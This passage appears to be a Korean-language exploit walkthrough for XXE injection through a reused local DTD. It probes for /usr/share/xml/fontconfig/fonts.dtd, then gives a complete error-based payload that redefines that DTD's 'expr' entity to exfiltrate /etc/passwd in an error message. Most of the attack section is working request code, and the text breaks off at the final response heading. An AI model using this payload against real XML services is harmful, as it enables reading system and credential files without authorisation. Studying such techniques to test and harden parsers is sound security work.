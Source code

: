**Response**

```
{"error":"/tmp/aaa (No such file or directory)"}
```
해당 에러를 통해 내부파일에 접근 가능한것을 확인합니다.

## Injection 가능한 Local DTD File 찾기

/usr/share/xml/fontconfig/fonts.dtd로 접근시 에러가 발생하지 않음

공격 가능한 여러 Local DTD 파일 존재함.

**Request**

```
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % file SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    %file;
]>
<message></message>
```

**Response**

```
{"error":""}
```

## Local DTD를 이용한 XXE Injection

fonts.dtd 의 내용은 아래와 같습니다.

```
/usr/share/xml/fontconfig/fonts.dtd

<!ENTITY % expr 'int|double|string|matrix|bool|charset|langset
      |name|const
      |or|and|eq|not_eq|less|less_eq|more|more_eq|contains|not_contains
      |plus|minus|times|divide|not|if|floor|ceil|round|trunc'>
[...]
<!ELEMENT test (%expr;)>
```

Exploit 실행 결과입니다.

**Request**

```
<?xml version="1.0"?>
<!DOCTYPE exploit [ 
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd"> 
    <!ENTITY % expr 'go)>
    	<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
    	<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///empty/&#x25;file;&#x27;>"> 
    	&#x25;eval; 
    	&#x25;error; 
    '> 
    %local_dtd; 
]>
<message></message>
```
**Response**
